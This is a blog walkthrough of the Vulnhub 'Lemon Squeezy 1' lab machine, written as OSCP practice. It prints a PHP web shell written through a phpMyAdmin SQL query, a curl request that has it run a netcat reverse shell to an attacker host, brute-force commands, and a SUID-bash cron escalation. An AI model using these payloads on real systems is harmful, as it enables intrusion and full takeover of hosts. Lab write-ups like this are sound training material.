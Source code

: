 +++
title = "Vulnhub: Lemon Squeezy 1"
date = "2021-04-13"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Directory Bruteforce", "ffuf", "WordPress", "WPScan", "PHPMyAdmin", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

<!--more-->
{{< image src="/img/lemonsqueezy1/lemon.png" alt="" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author | Machine link |
| ---------- | ------------ | ------ | ------- |
| Beginner | 26 Apr 2020 | James Hay | https://vulnhub.com/entry/lemonsqueezy-1,473/ |

# Summary

For this box we only get one port running a web server and we discover wordpress and phpmyadmin by directory bruteforcing. 
On the wordpress application we bruteforce credentials of the users discovered and then discover more credentials stored
in a draft post. With this new credentials we access phpmyadmin and write to a file using an sql query. This serves
as our initial foothold and we then escalate privileges by abusing a cron job running as root that executes a world writeable 
script.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.134
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:FF:26:DE (VMware)
```
# Enumeration

## 80 (HTTP)

Visiting this page on the browser only serves the apache default page, confirming what nmap found in title.

After performing a directory bruteforce using ffuf we get the following directories:

```sh
ffuf -ic -c -u 'http://192.168.191.134/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50
```

{{< image src="/img/lemonsqueezy1/lemon-1.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking the /wordpress directory, we see a basic wordpress site with not much information.

{{< image src="/img/lemonsqueezy1/lemon-2.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing enumeration using wpscan, the only interesting information gathered is the usernames.

```sh
wpscan --url http://lemonsqueezy/wordpress -e ap,at,tt,cb,dbe,u -o wpscan.out --api-token
```

{{< image src="/img/lemonsqueezy1/lemon-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Bruteforcing the credentials for each user, we discover the password of the orange user.

```sh
wpscan --url http://lemonsqueezy/wordpress -U orange -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
```

{{< image src="/img/lemonsqueezy1/lemon-4.png" alt="" position="center" style="border-radius: 8px;" >}}

After logging into wordpress with the discovered credentials **orange:ginger**, we find another password in drafts.

{{< image src="/img/lemonsqueezy1/lemon-5.png" alt="" position="center" style="border-radius: 8px;" >}}

With this password, we are able to login to phpmyadmin as the orange user.

{{< image src="/img/lemonsqueezy1/lemon-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Successful login:

{{< image src="/img/lemonsqueezy1/lemon-7.png" alt="" position="center" style="border-radius: 8px;" >}}

By logging in we can abuse this access by writing a file to disk that contains php by using an sql statement.

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/shell.php" 
```

{{< image src="/img/lemonsqueezy1/lemon-8.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then verify that we have successful command execution, by running the whoami command.

{{< image src="/img/lemonsqueezy1/lemon-9.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as www-data

Running the below curl command we are able to get a reverse shell:

```sh
curl "http://192.168.191.134/wordpress/shell.php?cmd=nc+-e+/bin/bash+192.168.191.1+9000+%26"
```

{{< image src="/img/lemonsqueezy1/lemon-10.png" alt="" position="center" style="border-radius: 8px;" >}}

After performing some manual local enumeration, we discover a cron job running as root. 

{{< image src="/img/lemonsqueezy1/lemon-11.png" alt="" position="center" style="border-radius: 8px;" >}}

The script being executed in the cron job is world writeable and the www-data user can write to it.

{{< image src="/img/lemonsqueezy1/lemon-12.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

After changing the script to the below command we can create a bash binary with suid permissions.

```sh
#!/bin/bash
cp /bin/bash /suidbash
chmod u+s /suidbash
```

{{< image src="/img/lemonsqueezy1/lemon-13.png" alt="" position="center" style="border-radius: 8px;" >}}

Once the cron is executed we get the binary and can escalate to root shell and read root.txt.

```sh
./suidbash -p
```

{{< image src="/img/lemonsqueezy1/lemon-14.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

 - It seems I forgot user.txt and it is in /var/www.

{{< image src="/img/lemonsqueezy1/lemon-15.png" alt="" position="center" style="border-radius: 8px;" >}}

- We could write to the wordpress folder from phpmyadmin because it was world-writeable.

{{< image src="/img/lemonsqueezy1/lemon-16.png" alt="" position="center" style="border-radius: 8px;" >}}

